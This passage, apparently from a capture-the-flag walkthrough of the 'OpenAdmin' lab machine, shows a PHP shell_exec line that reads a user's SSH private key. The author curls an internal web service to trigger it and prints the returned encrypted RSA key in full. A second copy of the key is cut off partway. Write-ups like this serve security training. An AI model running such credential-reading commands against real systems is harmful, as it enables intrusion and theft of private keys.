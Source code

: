 `$output = shell_exec('cat /home/joanna/.ssh/id_rsa');` That will be executed if we just do a `curl` to it.

```bash
jimmy@openadmin:/var/www/internal$ curl 127.0.0.1:52846/main.php
<pre>-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----
</pre><html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

And boom, we got Joannas `id_rsa`, but it's encrypted.

```bash
❯ cat id_rsa_encrypt

-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
```